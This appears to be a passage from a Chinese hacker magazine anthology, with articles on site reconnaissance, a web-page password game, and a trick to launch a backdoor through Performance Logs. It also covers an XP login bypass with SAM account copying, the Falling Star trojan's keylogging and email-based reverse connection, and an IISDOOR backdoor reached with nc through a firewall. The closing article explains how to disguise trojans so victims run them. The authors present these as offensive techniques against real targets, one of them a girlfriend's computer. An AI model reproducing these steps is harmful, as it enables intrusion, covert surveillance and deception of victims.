4. phpMyAdmin 2.5.0-rc2 存在密码明文并有可能被直接 url 读取问题：http://forum.hackway.net/index.php?showtopic=6211

搜集到最全的资料，其实这里就离真正的攻击只差一步了。至于正式的渗透，我都还没做，等考完试有时间再写吧。这个站我是真的想黑的，所以知道内情的兄弟就不要泄露了。

## 三、最终总结

这样，一次入侵前的踩点就完成了。其实它并不全面，因为各个主机的情况是不同的，也许你还要到大公司的垃圾堆去翻资料找信息，总之只是一个方面，给大家展示引导一下而已。

另外说一个问题：angel 写过一篇文章《Discuz 论坛短消息未限制发送次数漏洞》(已收录在光盘)，但有个地方写的不太对，这里指出来一下。问题出在 C 函数上。文中这一小段：

```
#include<stdio.h>
main()

```

```
{
int i;
for(i=0;i<55933;i++)
{
printf("http://www.xxx.com/discuz/pm.php?action=send&pmsubmit=submit&msgto=angel&subject=test&message=test",i);
}
}
```

我是在 TC 下编译的，有三个错误：

- 错误之处：
1. main 做主函数少一 return；
2. 55933 可能是 vc 下的最大值，我没试，但是 tc 下不行；
3. 函数中变量 i 在 printf 的格式化中不起作用了。

我修改为：

```
#include<stdio.h>
void main()
{
int i;
for(i=0;i<3000;i++)
{
printf("www.target.com/pm.php?action=send&pmsubmit=submit&msgto=10000&subject=yd&message=lovecat",i);
}
}
```

这样，程序在 tc 下编译通过了。现在我在该论坛上注册一个叫 10000 的帐号就可以用它生成 Cgi 列表刷了，这个是个老漏洞了，自己看 X 去复习吧！
(光盘收录有作者搜集的相关资料)

# 傻瓜黑客

# 网页过关游戏全程图解

浪迹天

有段时间我迷上了网页过关游戏，天天跑去玩，时间一长，也有了不少收获，现写出来与大家共同分享，希望与大家共同探讨。下面我选择清华在线的黑客游戏，这里的知识比较全面。

## 第一关

打开网页地址：http://www.tsinghua.org/lab/num1/hackgame.htm，大家会看到图1所示的页面，这就是第一关了。


这关很简单，直接在IE菜单中选择“查看→源文件”（图2）。知道了吧！密码就是if（x===""）里面的空字符串，注意不是2个空格！把它复制过去就可以看到：“恭喜您，答对了，进入第二关！”，很简单吧！


## 第二关

这里有点麻烦，还是查看源代码（图3），不要以为这里的“*”就是密码咯，没这么简单，仔细看！看见上面的<frame src="e.htm">了吗？原来网页是http://www.tsinghua.org/lab/num1/e.htm，打开这个网页看看，查看其源代码（图4），很明显加密了！很快就能找到的。


我们在网上找一个在线加密解密的，比如：http://www.vvss.net/tools/unescape.htm，解密后如图5。

用Ctrl+V把源代码粘贴进去点解密，得到原来的代码。看到了吧，密码就是“X”咯！好了，前两关就这么简单的就过去了！好的，我们在网页上输入密码进入第三关。

## 第三关

继续第三关有点麻烦，是个光光的框，没有标题栏，怎么看源代码呢？没有关系，我们有办法的。大家都知道Tencent Explorer吧！就是QQ的浏览器！我们用TE（Tencent Explorer）在第二关里输入密码，到了三关，哈，有菜单了吧！如图6。

好的，我们查看源代码（图7）。又加密了！注意到了这句：<SCRIPT language = JScript.Encode>，哈，用Encode加的密，

# 傻瓜黑客

去找在线解密的，比如http://www.eatbar.com/tools/s_encrypt.html 解密后会看到图8所示的代码！密码有了，是“********”咯！

输入密码，去第四关看看！


图6


图7


图8

## 第四关

hoho！弹出一个框，点击不了菜单，那就不能直接查看源代码了！怎么办？这回我们用view-source：！因为我们已经知道第四关的地址是http://www.tsinghua.org/lab/num1/jpg.htm，那就好办了！在URL里直接输入view-source:http://www.tsinghua.org/lab/num1/jpg.htm，回车后将弹出源代码，如图9。


图9

看到一大堆的用户名和密码，不过别急，这里都不对的，因为他用了<meta http-equiv="refresh" content="0;url=error.htm">，这句不论你输入什么都没有用。

再往下找，哈！看这里（图10），看到了要打开的网页地址：http://www.tsinghua.org/lab/num1/3.14159265358979323846264.htm了。OK，输入这个地址就进入第五关。


图10

## 第五关

和第四关一样，又弹出一个框，老办法，用view-source,http://www.tsinghua.org/lab/num1/3.14159265358979323846264.htm查看源代码，也是一堆的用户名和密码，但这里也不是我们要的。再往下找，看到window.open("5.html.htm","_self")这句了吗？不是吧，和前面的一样啊，怎么两关是一样的？

我还在发晕中，先试一下吧！再用view-source：http://www.tsinghua.org/lab/num1/5.html.htm查看，什么也没有。不对，这里肯定不是这样！

再看，来到图11所示的地方。看到了吗？css.css有点问题，估计就是这里有鬼。试着打开http://www.tsinghua.org/lab/num1/css.css，哈！有点问题，下载了什么东西，用Dreamweaver打开看看（图12）。真的在这里：“第六关入口地址为：http.htm”。呵呵！找到了，去第六关http://www.tsinghua.org/lab/num1/http.html


图11


图12

# 傻瓜黑客

## 第六关

第六关还是老样子，弹出个框，还是用 view-source:http://www.tsinghua.org/lab/num1/http.htm 查看源代码（图13），看到这里：window.open("777.jpg","_self")，哦！原来是要打开777.jpg。好的，那我们就去 http://www.tsinghua.org/lab/num1/777.jpg。原来是个图片（图14），估计这里有蹊跷，信息肯定就在这照片里，点鼠标右键另存图片。

```
Function PassonErrIn() {
var htm=document.password.pass.value
if (htm=="htm") {
window.open("777.jpg","_self") }
else {
window.open("error.htm","_self") }
}
</script>
<center>
<p> </p>
<p><font color="#FF0000" size="6">清华在线 | 黑客游戏 </font></p>
</body>
```


另存好了图片，用16进制编辑器 Winhex 打开它（图15），找到第七关入口 mms.htm，和前面的地址比较得到七关地址：http://www.tsinghua.org/lab/num1/mms.html。去第七关看看！

## 第七关

查看源代码，里面还是一堆的名字和密码，我不会上当的，再往下找（图16）！
看到我标记的那句了吗？就在这里，我们去 http://www.tsinghua.org/lab/num1/ani.ani 看看（图17）。哈哈！就是这里，我们找到了最后一关的入口！

```
//JavaScript ends ---------->
</SCRIPT>
<TITLE> 清华在线 | 黑客游戏 http://www.tsinghua.org/bbs/第一周第七关 </TITLE>
<link rel=stylesheet href="css.css" type="text/css">
<META http-equiv=Content-Type content="text/html">
<frame src="*.htm"></iframe></noscript>
<body bgcolor="#000000">
<meta http-equiv="refresh" content="0;url=error.htm">
<meta http-equiv="pragma" content="no-cache">
<meta http-equiv="expires" content="0,1 June 2001 08:08:08 GMT">
<script language="JavaScript">
<!--
Function SymErr() {
//-->
</script>
```


上面显示如下信息：
第八关入口为一问题：
ABCD为四个0-9的个位自然数，而且各不相同，ABCD乘以D等于DCBA，分别求出各个数，然后页面就是ABCD.htm
哦！原来还要过这关！分析一下它的意思，很简单，就是找到ABCD这几个数嘛！这也很办好了，肯定不能一个个的去试了，我们编程来找到这里的ABCD吧！我用C语言写了一个，很简单，用了4个FOR循环，代码如下：

```
#include <stdio.h>
main(){
int i,j,k,l,X,Y;
for(i=0;i<10;i++)
for(j=0;j<10;j++)
for(k=0;k<10;k++)
for(l=0;l<10;l++){
X=1000*i+100*j+10*k+l;
Y=1000*l+100*k+10*j+i;
If((X==Y)&&(i!=j)&&(k!=l)&&(j!=k))
Printf("ABCD=%d%d%d%d\n",i,j,k,l);
}
}
```

好了，我们在这里想想就知道了，满足这样的数字的A一定是1，而D一定是9，这样在编程时就可少2个FOR循环，程序运行的时候也会快些得到答案！不过没关系，慢就慢点吧，运行程序，得到的结果是：ABCD=1089，就是我们想要的结果了！我们去看看吧！
打开http://www.tsinghua.org/lab/num1/1089.htm就是最后

# 傻瓜黑客

后的页面。哈哈！到这里我们就做完了，有点成就感吧！自己去看看吧！

好了，到这里我们就过完了八个关口，总结一下我们学到的东西吧！

## 总结

- 1. 做这样的网页游戏，基本着手点就是看源代码，当网页屏蔽了菜单栏或者弹出对话框时，要学会用view-source:来查看。这点很重要。
- 2. 学会网页的加密解密知识。我们要学会在网页源代码中找到加密用的函数，然后去网上找在线的解密网页。要注意的是有时我们可能要重复解几次，因为有时网页是加了几次密码的（我就碰到一个网页加了4次密的情况）。
- 3. 要学会变通。当我们在网页源代码中找不到密码或找到的都不对时，或者按照逻辑走不通时，我们要注意观察代码中特殊的连接，然后找到要打开的下一个网页地址，就不要去找密码了！直接输入地址就过去了。
- 4. 要学会分析图片。因为他们常常在图片中复合一些信息，我们可用记事本打开图片，可能会找到需要的信息。如果记事本打开全是乱码，那就用16进制编辑器打开分析。
- 5. 学会基本的编程思想，用程序让计算机帮我们算。

本文所有的网页源代码我都打包放光盘里了，有兴趣的朋友可自己去分析，我就不多说了。有问题到X 官方论坛找我吧（http://www.hackerxfiles.net/bbs/）！
（本文提到的Winhex及所有的网页源代码光盘有收录）

# 菜鸟乐园 半瓶汽水

本人入“黑”道一年了，终于从一颗鸟蛋孵化成一只菜鸟。常自负半个天才，但可怜穷酸太多，以至于不能以“黑”为主。每有回忆便痛心疾首，于是决定痛改前非重新再来。于是产生此菜文，以励其志，高手莫笑。
闲话不谈，先说说文章内容。本文内容如下：

- 1. 由性能日志和警报想到启动后门；
- 2. 利用超星阅读器获得ADSL密码。


监视的计算机，均会按我们在计数器上的设置进行数据搜集。从而定义在所选计数器的值超过或低于指定设置时，则发送消息、运行程序或启动日志。
聪明的朋友应该知道了，我们就是设置一个计数器来在特定时间里运行后门程序。


大家都知道，由系统启动后门的一般方法是注册表下的几个启动键和2004第10期谈到的启动文件夹，再者就是修改服务。现在我给大家介绍另一种启动后门程序的方法：利用性能日志和警报启动后门，通过“开始→设置→控制面板→性能”打开性能日志和警报，下面有计数器日志、跟踪日志和警报三项（图1）。

原理：利用系统启动时加载日志服务，而日志的记录和设置是由“性能日志和警报”完成的。而且无论用户是否登录到受

> > 弊端：用这种方法启动程序只能利用一次，即在设置的特定时间里启动后就不能再启动了。郁闷ing！难道只能利用到这儿了吗？期待高手帮我解答。

下面给大家说一下具体怎么做的：在图1中用右键单击计数器日志或跟踪日志，然后选“新建日志”设置，出现了日志名字设置的对话框，取个比较迷惑的名字(如System login)。在“常规”选项卡中单击“添加”按钮来添加一个记数器，在弹出的选择计数器对话框中（图2），那个“性能对象”就是系统监视的对象，由于这里我们只利用“计划”选项卡，所以随便添加一个。


然后看“计划”选项卡中我们的设置（图3），我们设为22日停止日志，再看那个“当日志文件关闭时：运行此命令”，设置我们要在22日22:08时执行的程序。执行后在进程管理器里杀不掉哦（图4）！

> > 优点：由于是用性能日志和警报来启动一个程序，所以在at列表里和注册表中是找不到的，就算杀毒软件也找不到，被发现的机率降低了。而且由计数器日志和跟踪日志启动的程序是不能被任务管理器中止的，杀不掉哦！

黑黑文摘 2003-2004年合订本(下卷)

201


# 傻瓜黑客


的话，警报会启动n个同样的程序进程，直到警报停止；会死机的。但也可用它设置从网络启动一个程序，即在添加计数器时选择tcp、udp类的对象来监听网络连接，如Connections Reset触发是指TCP连接完成从ESTABLISHED状态或CLOSE-WAIT状态直接转换成CLOSED状态的次数，再在限制中设定一个值，然后Telnet，不等连接就停止。等达到你设的值，程序就启动了。好了，不多说了，它们下面有许多可用的东东，大家自己试试吧！

为什么不让警报来启动来构造呢？因为警报是一直监听系统，等到触发警报时，便执行某项操作（如执行某个程序），这样


这几天在进路由端ADSL密码时发现了个好东西——超星阅读器（听名字就有一种黑色的温馨感觉）。

超星阅读器是国产软件，具有电子图书阅读（pdg格式）、资源整理、网页采集、电子图书制作等一系列功能。下面说说它的另类功能——读取路由管理页面里显示为*号的密码！不知道大家有没有碰到这种情况，要看路由管理页面的源代码时，却发现查看源代码那一项是灰色不可选，这时就要用到它了。

安装过程就不用说了吧，打开一个路由进入ADSL设置页面，选中密码框中的“*”号，然后单击右键，看到没？快捷菜单中多了两项“导出当前页到超星浏览器”和“导出选中部分到超星阅览器”（图5）。

选中那个“导出选中部分到超星阅览器”。这时系统会自动启动超星阅读器，在超星阅读器中就可看到明文密码了（图6）。以后再也不用查看源代码了！

至此我要说的都完了，是不是觉得很菜？还请高手们指正！（本文提到的超星阅读器光盘有收录）

## XP 无密码登陆

发质王

周末闲得无聊，想看动画却没电脑。同学那里有，但加了密码，郁闷！在内心的欲望驱动下决心破解。

查询资料，发现在2003年6月《X档案》的补丁册里有篇“驳‘忘记Windows XP登陆口令的解决方法’”一文，其中总结了现在流行的几种无效的登陆方法，最后有一种能稍微得到一点权限的方法，赶紧试试先！

方法很简单，用软盘启动电脑，把System32目录下的cmd.exe改为logon.scr（先做好备份），正常启动电脑到登陆界面，静止不动10分钟，cmd.exe就会运行，在浏览器就能打开桌面。不过现在是没什么权限的，首先是出现一大堆错误，然后就不动了。不过只要手脚快点，打开Real Player或者Media Player还是能看碟的，但这样很郁闷，看着不爽。

随手点开“开始”菜单，发现用户名显示的竟然是System。哦！不会是这样的吧！经过一阵尝试，终于让我找到了获得管理员权限的方法。废话不多说，马上进入正题。

还是先把cmd.exe弄出来，如果在cmd下运行explorer的话，就会出现桌面，但那样用户下次登陆时会显示错误提示，还有你这次登陆的时间。那样如果不成功的话，下次用户登陆时会出现一大堆错误提示。先在C:\WINDOWS\system32\desk.cpl调出桌面属性（%systemroot%表示系统目录，如我的系统在C盘，输入c:\winnt\system32\desk.cpl即可），把屏保时间改成1分钟，不然以后每次10分钟非等死你不可。然后运行regedit把注册表调出来，展开注册表到HKEY_LOCAL_MACHINE\SAM\SAM\Domains\account\user，呵呵！是不是直接就打开sam了啊？那是当然的啦，我之前看到那个system后就想到了这一点。就下来的事就简单了，把下边“000001F4”里f的值键值复制到000001F5里的f中去。然后全关了，按两次Ctrl+Alt+Del，用户名输入guest并回车，一切OK！

另外有个小问题，就是在这种状态下QQ登录不了，我找到了一个办法，就是把QQ的文件夹改个名字就可以了，不过QQ游戏还是不能玩，请高手指数一下。当然，你也可以新建一个管理员什么的，用完了再删除。

现在终于能在同学的电脑上舒舒服服地看动画了，真爽啊！

## 牧马记

## 最新“颠覆公主”级木马Falling Star

### 小鱼儿

Falling Star是国产木马中一只不错的木马（光盘中有收录），兼容所有系统、运行稳定、功能也很丰富，甚至连下线时最轻的反弹功能也加进去了，而且还创意性地设计了一个用信箱做反弹中转的办法，这比利用主页空间、域名转发、静态IP主机都要来得实惠，信箱谁没有啊？所以这种反弹方法还是很好的。

但令我无法理解和忍受的是，它的服务端居然必须要100多K的控件支持！服务端需要额外支持？太夸张了，木马一向都要以简洁、微小为目标，这样才能非常隐蔽的进入对方系统。那么大家又会问，这个木马还有使用价值吗？当然有了！你只要不介意的在对方系统中装上它就好了！晕，有这么好的事吗？什么地方可这样用啊？稍微想想就知道了。用肉鸡就可以，一台已经被你入侵过的电脑，想对他进一步取得更多的控制功能，装个Falling Star最好了。那如果被删掉怎么办呢？小兄弟，你真以为那么好删啊！我这篇文章的题目难道是白写的？这个木马在防止删除上可说是集百家之长（不过还没到像网络公牛那样把重要系统文件全感染的程度）。对于它驻留系统的方式和手工完全消除它的方法，我将在本文最后详细介绍。

下面先让大家了解一下这个木马的其他功能，它的控制功能不论对于个人用户还是服务器都是很好用的。

### 功能预览

这个木马使用前无需配置，其实也不是这样，而是它根本不能先进行配置（这作者真有性格）。如果想配置服务端，必须先连上去修改配置，在没修改前，服务端连控制密码都没设！

把木马解压到一个文件夹，可看到5个文件：

```
FS_Server.exe(77K)：服务端
FS_Client.exe(60K)：客户端
flower.jpg(100K)：WinXP皮肤控件（不是网络文件）
bbs.asp(1K)：将服务端安装到反弹信箱邮件的示例
readme.txt：说明文件
```


其中，“flower.jpg”就是让我恼火不已的那个控件，这可不是图片啊！不管用什么看图软件去打开，都是什么也看不到。我先运行了FS_Server.exe，玩木马的人就得有这种起码的觉悟，我不入地狱谁入地狱？

呵呵！很快FS_Server.exe和flower.jpg两个文件都消失了，居然还是安装后自动删除的！生怕别人不知道你是木马啊？装完木马后，我运行客户端FS_Client.exe，客户端的界面非常清晰整洁（图1），所有功能一目了然。点击连接后，很快就和服务端连上了，连上是否成功从软件主界面的最下面可看到文字提示，连上后左边一列本来为灰色的功能按钮会恢复为黑色，现在我们可以开始对这台机器进行各种操作了！

### 获取系统信息

大家看看图2，很齐全的系统信息吧！我就喜欢这样的木马，能对所控制的机器有个基本了解，很多优秀的木马都忘了这一点。

### 基本功能操作

这是木马的必备功能，要终止一个进程只需用鼠标左键单击它，然后点“杀掉进程”即可（图3）。


《黑客X档案2003-2004年合订本下册》

## 牧马记

另一种是执行.vbs、.bat、.js后缀的文件，执行并不可怕，可怕的是它下面居然提供了一个文本输入框！说到这里，有些人凭直觉就猜到了，难不成可以直接在这个界面编写并运行vbs病毒？如果是，那这个软件岂不是相当于一个远程病毒制造机？简直太可怕了！要知道现在网上流传的著名病毒的源码数不胜数，随便COPY一个（如著名的蠕虫代码，据我测试，这个文本框对病毒代码的长度好像没有限制，多大的vbs、病毒都可执行的，如图6，然后点击执行，嘿！你的电脑就中毒了。所以，大家要小心点，中木马也别中毒毒，呵呵，当然了，最好木马也别中！

### 3.文件操作

这块功能虽然都做出来了，但使用起来很不顺手，看着我就头疼（图4）。大家照着右边的按钮操作即可，我就不多说了。


### 4.执行命令

### 5.注册表

功能挺完善的，就是界面看起来不爽，没亲切感，但使用起来很全面（图7）、图8是新建键值的窗口。

这是Falling Star的一大亮点！执行命令其实分为两部分。一种是执行DOS命令，有一个类似DOS的窗口，用它很方便地执行各类命令（如dir、net user等），并能看到命令执行结果，和本地的DOS窗口一样。比如：在“输入你要发送的命令”中输入cmd后，就可直接调出MS-DOS窗口（图5）。


### 6.信息发送


使用了这么久终于开始配置了，总觉得有点本末倒置的感觉！既然可以配置了，先赶紧设个密码吧！最好端口也改了，这样其他人就无法控制了。杀那种防火墙自己打勾就可以了，但Falling Star有个特点，可以在安装时就杀掉防火墙，不知作者的

2006 黑客X档案 2005-2004年合订本(下)1

## 牧马记

脑筋是怎么想的，居然用那种古怪复杂的方法，大家可自己去看readme。配置这一块我觉得较有用的可能就是键盘记录了，它可监控指定的窗口，比如IE、QQ等，然后把监听到的记录发到指定信箱。全部配置好后如图9所示。

### 7.各种服务

这个做得不好，不能连续监视，更不能对屏幕进行操作。值得注意的是，截图时有两种选择——BMP和GIF，一般来说，BMP的大小要远大于GIF格式。虽然GIF看起来花的时间要少得多，但有几种情况恰恰相反，那就是在本机上宽带时，选择BMP格式的查看反而更快，为什么呢？因为选用GIF格式，在服务端要先把它转换为GIF，这个运算量较大，所花的时间较长，一般要5到40秒，视子机配置而定。


### 8.远程控制

这个功能做得很方便，使用方法和进程管理差不多（图10），但它比其他木马多了可以分别显示已启动服务和未启动服务的选项，这在我们查看远程服务器开了哪些服务时很方便。还可对选取的服务项目进行各项操作。


图10 显示的是 Distributed Transaction Coordinator

### 9.系统控制

记得我给女友的电脑装上Falling Star后，在她电脑里管理进程、上传/下载文件、设置共享、执行命令，忙得不亦乐乎，她却说，你给我装了木马有什么用呀？我一点感觉也没有。我晕！不过想想也是，我对她的操作虽然很多，但都是在后台进行，她看不到的东西当然会觉得“没用”了。于是我说，你等一下，我把Falling Star调到系统控制的窗口，眼前立刻出现了密麻麻的各种选项，都是一目了然的恶作剧功能。我一边挨个试，一边对她说，现在看到效果了吧？可怜的MM，眼睁睁的看着自己电脑屏幕上会桌面图标没了，一会任务栏消失，再不就是正在看着的网页窗口突然失踪，一会儿又蹦出一个笑话网页，最令她郁闷的是鼠标也不能动了，看着她眼睛直直的望着屏幕，嘴巴越翘越高，我知道这收手了，不然……汗！

### 10.反弹连接

这个创意很好，但功能做的还不够人性化。该功能用于与服务器端进行反弹式连接，与网络神偷类似。但不是使用个人主页来获取IP，而是通过邮件。这是因为考虑到现在的免费个人主页越来越少，而且不稳定，对于一些菜鸟来说也显得过于复杂。

反弹连接的使用方法如下：

（1）安装。你可在安装时指定将其安装为反弹连接（若缺省则为常规木马），方法是编写一个配置文件。首先将服务端文件名更为fsbound.exe（不然不会安装为反弹木马），然后用记事本编写一个ini文件，命名为fsbound.ini，其内容如下（// 后为注释）：

```
[fsbound]
pop3name=pop3.sohu.com //你的pop3服务器地址
pop3port=110;//你的pop3服务器端口
username=username //帐号
password=password //密码
getipinterval=5;//获取IP（接收邮件）的时间间隔，示例表示每5分钟收一次邮件
gettime=0223 //获取IP的时间段限制，示例表示只在2点到23点才获取IP
```

如果想使用固定IP，则内容如下，只需要一行即可：

```
usethisip=127.0.0.1/7743
```

其中，“127.0.0.1”是你的固定IP，“7743”是你想要监听的端口。当然，你也可以使用域名代替IP，如：`usethisip=test.yeah.net/7743`，你只需将“test.yeah.net”这个域名指向你自己的IP即可，这比直接使用IP灵活，因为你随时可到虚拟域名上更改其IP指向(不过我试过，呵呵)。

必须严格按照上面的模式写，顺序不可改变，大小写无所谓。写好

后，将其与fsbound.exe以及flower.jpg上传到对方同一目录下，然后运行fsbound即可完成安装。

在今后你也可进行更改，连接后，可在反弹连接中取消反弹或设置反弹，以及设置各种反弹参数。

（2）使用。在使用时，需要先按提示填入自己IP和监听端口，然后点生成主题，程序会自动生成一个主题（进行简单加密），将它粘贴下来，作为邮件主题发往通知信箱，然后点击开始监听等待对方的连接即可。若要更改监听端口，请重新生成主题并发送，然后要删掉邮箱中原来的邮件。你也可设定获取IP后是否自动删除邮件，建议选取自动删除，这样将删除邮箱中的所有邮件。若不自动删除，则需要手动删除，最好在发邮件前先检测一下邮箱，把不相关的邮件全部删除。连接时缺省的收邮件的时间间隔为10分钟，比较长，若你使用了缺省值，请耐心等待。另外，连接设置为：连接次连接不上，则停止2分钟继续尝试连接，这个没有提供给大家自定义，2分钟应该不会太长。如果你是设置的连接固定IP，不用做以上工作，直接在“反弹连接/监听端口”中填入监听端口号，点开始监听，等待对方连接即可。如果要写配置文件，可参照压缩包中的示例文件，稍作修改即可，记得将FS_server改名为fsbound。该功能我用sohu邮箱测试通过，其它邮箱未作测试。


最后我们进入本文的重点，怎样手工清除Falling Star？话说我给女友的电脑装上Falling Star后，为了表现一下，于是我拍胸脯说：我帮你手工删除吧（当时我还不知道如何手工清除，正好借此机会让大家学习清除木马的一般步骤）：M M 自然高兴！我自信的打开注册表，在HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run下找到木马的启动项——SystemTray.exe和Internet.exe（图11）。我果断地删除了他们，然后重起电脑，进入系统后发现刚被删掉的两个键值居然又回来了！按道理说虽然我没有终止进程，但删掉启动项后，下次启动系统木马就不会再加了，难道它有别的启动方式？我马上想到了木马最常用的E X E 关联，打开注册表查看了一下HKEY_CLASSES_ROOT\exefile\shell\open\command下的键值，果然它已被改为："D:\WINDOWS\System32\Explorer.exe" %1 %*。

黑客X档案 2003 2004年合订本(下册)

## 牧马记


图11

作者很狡猾，要知道Explorer.exe是正常系统文件，但他利用我们的视觉错误将Explorer.exe中的“l”换成了阿拉伯数字“1”，看起来是不是很像呢？ EXE 和 TXT 关联是木马最常用的两种文件关联，因为在我们的电脑里，这两种格式的文件最多。除此之外，还有INI关联也较常用，在查看了TXT和INI关联后，发现只有TXT被关联了，键值被改成："D:\WINDOWS\System32\NOTEPAD.exe" %1。这个错误也很明显，因为NOTEPAD.exe的路径应该是："D:\WINDOWS\NOTEPAD.exe"，前面的Explorer.exe也是在Windows目录下，熟悉系统的人不会轻易被骗的。

于是我将EXE关联和TXT关联的键值都改回原来的正常键值，分别是"%1" %*和notepad %1。然后再次重启系统，回到系统后打开注册表，EXE和TXT的文件关联键值又被改成木马的了。我想了想，觉得应该是在重启系统时文件关联就被进程中的木马所修改，那么木马的两个进程不先终止它们是不可能删除木马的！于是打开WinXP的任务管理器，看见它的两个进程分别为Systemtray.exe和Internet.exe（图12），终止其中一个后还没等我终止另一个，原来终止的一个进程又复活了！难道这是……这不是2003年7期杂志中介绍的木马风雪一样的双进程保护功能吗？双进程保护就是两个进程互相监视，如果一个进程发现另一个进程不在了，它就会立刻将它“复活”！这种方式看起来很难神秘，其实也不过是利用了一个定时器的原理，就是每隔一小段时间（比如0.5秒钟）互相检查一次，手动是来不及同时终止2个进程的，如果有个工具能同时终止两个进程就好了，可上哪儿去找这样的工具呢？其实这种工具就在你的手边，那就是Win2000和WinXP的任务管理器！


图12

任务管理器虽不能同时终止两个以上的进程，但却可终止一个进程和它相关的进程，也就是“结束进程树”的功能！于是我用该功能终止掉systemtray.exe，居然没用！奇怪，我又试了好几次，用进程树还是无法终止掉任何一个进程，这是怎么回事？这时，我试着换了一下对象，去终止internet.exe，结果两个进程都消失了。怪了！我又反复试了一会，终于发现怎样可以真正结束掉它们了，方法是：先用结束进程树终止一个进程，然后换另一个进程用同样的办法终止，这样交换一下后，就可达到终止2个进程的目的，过程如图13、图14所示。


图13


图14

手工清除Falling Star时，顺序千万不要搞错了。先打开注册表，不要管→然后去用任务管理器终止两个进程→再到已打开的注册表中删除它的启动键值和关联键值→最后关闭注册表，重起系统。这样，Falling Star就被彻底清除了。要注意的是，一定不能在终止进程后才打开注册表，因为注册表程序本身是regedit.exe，所以也会受EXE关联的影响，从而启动已被终止的进程。除非你事先把regedit.exe改名为regedit.com，这样才不会启动木马进程。

如果是Win98系统，没有任务管理器就只能编写一个BAT文件来同时终止了。除了手工清除外，用作者提供的clear.exe也可大致清除。其实MM最相信clear.exe，因为这个软件清除Falling Star后会弹出一个窗口，提示说：Falling Star已经从您的电脑中彻底清除了！于是她就安心了。而面对我完美的手工清除完全看不懂，所以既不信任，也不屑一顾。悲哀呀！

总之，Falling Star不愧是货真价实的“顽固分子”，它的双进程保护和文件关联互相保护着，在不知情的情况下，我们很难清除它。但弄明白后，它也就不再可怕啦！

208 大众硬件 2003 2004年合订本(下)


## 牧马记

这次紫幻为大家带来一款可以穿透防火墙的后门。相信广大黑迷看了文章标题就能猜到这是一款 IIS 后门。在服务器上无论安装什么样的防火墙都会开放 80 端口，一般的后门都另外开放其他端口。但安装了防火墙后，你的后门就不起任何作用了，因为防火墙过滤了 80 以外的端口，这样一来容易造成“鸡”飞蛋打的情况。要想绕过防火墙，首先要把后门建立在 80 端口上，不在另外开放其他任何一个端口。还有一点就是，对方主机上可能还会开杀毒软件，后门程序不被查杀也是很重要的，一般满足这两点我都称之为利器。今天，我为大家介绍的 IISDOOR（光盘中有收录）就属于这种类型，下面为大家详细介绍我是如何用它穿透防火墙肉鸡留后门的。

## 1. 启动后门

IISDOOR 的启动方法非常简单，后门也只有一个文件。在 3389 登陆的情况下直接双击 iisdoor 就可以了。在 shell 下直接上传到远程主机的 c:\winnt\system32 目录下启动它。

## 2. 放置后门

我的局域网里有一台 Windows 2000 server 主机开放了 web 服务，IP 地址为：10.114.0.3，我就拿它做试验。需要说明的是，在攻击前该主机没有安装任何防火墙，我利用的是最新的漏洞 rpc135（呵呵，一般黑客都是较前卫的）。

我拿到了 systemshell，并且用 tftpd32 上传了 iisdoor.exe 到该主机的“c:\winnt\system32”目录下（图 1）。


上传完 IISDOOR 后，直接在命令行下输入 iisdoor.exe 回车即可。这样 IISDOOR 就开始工作了。

## 3. 利用后门穿透防火墙

放置好后门，我给 10.114.0.31（刚才溢出 shell 放置 IISDOOR 的主机）安装了天网防火墙（这样做的目的是为了给大家清楚地演示它是如何穿透防火墙的）。天网防火墙设置为 80 端口通过，而其他任何端口全部过滤。安装完后我用 SuperScan3.0 对该主机进行了扫描，扫描结果如图 2。


看到了吗！10.114.0.31 只开放了 80 端口。好了，抄家伙连接后门！连接它的方法很有趣，和以前任何后门好像都不太相同。连接时需要使用 NC，连接方法为：

```
E:\>nc  10.114.0.31 80
```


打开 NC，键入命令：-vv IP 地址 80，当提示连接 80 端口后，键入命令：get /%08*/.jh (*.jh 可随便添，只要后缀为 jh 即可)。接着就会提示“we got it”，然后输入 c m d . e x e 就会出现可爱的 c:\winnt\system32>来执行任何命令了。权限可是 administrators 哦！图 3 是我对 10.114.0.3 的连接结果：

看到了吗？
成功拿到了 shell！在我机器上用 netstat -an 命令查看一下连接情况下（图 4）。

看到了吗？shell 是建立在 80 端口上的，并且成功穿透了 10.114.0.3 上只开放 80 端口的天网，而且对方的防火墙没有任何报警信息！

IISDOOR 我只实验了 Win2k 的所有版本，其他版本我均没有实验。有兴趣的朋友可自己去试试！另外，其他的防火墙（如瑞星和金山网镖等）希望你能也有意外的发现！


## 4. 注意的问题

- （1）出现错误后，将 %systemroot%/system32/inetsrv/metaBase/metaBase.bin 复制到 %systemroot%/system32/inersrv/下覆盖，即可恢复。
- （2）IISDOOR 拿到的 shell 需要执行一个命令回车两次才可看到回显。有点像 idq.dll+ispc.exe。

黑客X档案2003-2004年合订本(下册)

209

## 牧马记

# 木马伪装技术

木马是黑客常用到的工具，我在这里给大家讲一下如何将木马伪装？从而避开管理员的察觉，使管理员不知不觉中将木马执行。

## 一、图标欺骗

这是最为常见且有效的方法，也就是直接将木马的图标更换为我们常见的系统程序图标（如文记事本的图标等）。这样，受害者以为我们伪装后的木马是普通程序而去执行，从而达到欺骗的目的。
更换程序图标的方法有很多，推荐大家使用IconForge，这个程序在各大下载网站都有下载。使用方法如下：
1. 安装程序后执行 “File→open”；
2. 在“File type”中选择exe类；
3. 在“File open”中载入预先制作好的图标（可到程序员之家下载）；
4. 按下“File→save”便完成了。
经过以上设置，便得到了看似jpg或其它格式的程序的木马了，许多人都会不经意间去执行。

## 二、文件捆绑

许多木马执行后都是一闪而过，所以上面所说的方法很容易引起受害者的警觉。因此，我们干脆将木马程序伪装成应用程序，反正都是以exe为扩展名的，这种欺骗方法通常要用到文件捆绑程序。文件捆绑程序可将一个或多个可执行文件结合为一体。若执行了所构造的结合体，那么结合体内的文件便会同时执行。所以我们可以将游戏与木马捆绑在一起，而木马通常是隐蔽在后台执行的，这样受害者便会毫无知觉。
用于捆绑的程序有很多，我以exebuilt（光盘中有收录）为例：
1. 执行exebuilt；
2. 在“文件一”中选择木马文件，“文件二”中选择正常文件。
3. 确定。
Exebuilt可自动将“文件二”的图标提取为捆绑后的程序图标，这样捆绑出来的木马的隐蔽性不言而喻！

## 三、高级伪装

前面所说到的“文件捆绑”是个很好的方法，但捆绑出来的文件很可能被各大防毒软件列为病毒（不管所捆绑的是不是木马），所以我们需要一个更完善的方法。也许大家都遇到过这种情况：一些网站下载的程序解压后会立刻执行他们所放置的广告文件。经过对这种现象的研究，我利用WinRAR的功能扩展出了一种全新的木马伪装方法。

